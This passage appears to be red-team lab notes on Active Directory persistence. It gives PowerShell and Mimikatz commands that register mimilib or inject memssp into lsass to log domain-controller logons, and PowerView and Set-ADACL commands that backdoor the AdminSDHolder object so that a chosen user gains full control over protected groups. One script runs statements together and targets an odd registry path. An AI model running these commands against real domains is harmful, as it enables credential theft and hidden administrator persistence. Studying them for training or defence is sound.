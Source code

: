 We can use either of the ways:

– Drop the mimilib.dll to system32 and add mimilib to `HKLM\SYSTEM\CurrentControlSet\Control\Lsa\Security Packages`:
```powershell
$packages = Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages'| select -ExpandProperty 'Security Packages' $packages += "mimilib" Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages' -Value $packages
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\ -Name 'Security Packages' -Value $packages 
```

– Using mimikatz, inject into lsass (Not stable with Server 2016):
```powershell
Invoke-Mimikatz -Command '"misc::memssp"'
```

All local logons on the DC are logged to `C:\Windows\system32\kiwissp.log`
![image](https://user-images.githubusercontent.com/40224197/211097007-f511e6dc-beaf-4112-8308-9bf444315d23.png)

# AdminSDHolder

• Resides in the System container of a domain and used to control the permissions - using an ACL - for certain built-in privileged groups (called Protected Groups).

• Security Descriptor Propagator (SDPROP) runs every hour and compares the ACL of protected groups and members with the ACL of AdminSDHolder and any differences are overwritten on the object ACL. 

Protected Groups

![image](https://user-images.githubusercontent.com/40224197/211097368-f1f41fbf-0bf8-4cec-8dc9-1b78a5652393.png)

Well known abuse of some of the Protected Groups - All of the below can log on locally to DC:

![image](https://user-images.githubusercontent.com/40224197/211097492-4a7b001b-a2f5-4ac4-b1f3-1f15c0da3cc4.png)

• With DA privileges (Full Control/Write permissions) on the AdminSDHolder object, it can be used as a backdoor/persistence mechanism by adding a user with Full Permissions (or other interesting permissions) to the AdminSDHolder object.

• In 60 minutes (when SDPROP runs), the user will be added with Full Control to the AC of groups like Domain Admins without actually being a member of it.

#### Add FullControl permissions for a user to the AdminSDHolder using PowerView as DA:
```powershell
Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName student1 -Rights All -Verbose
```

#### Using ActiveDirectory Module and Set-ADACL:
```powershell
Set-ADACL -DistinguishedName 'CN=AdminSDHolder,CN=System,DC=dollarcorp,DC=moneycorp,DC=local' -Principal student1 -Verbose
```
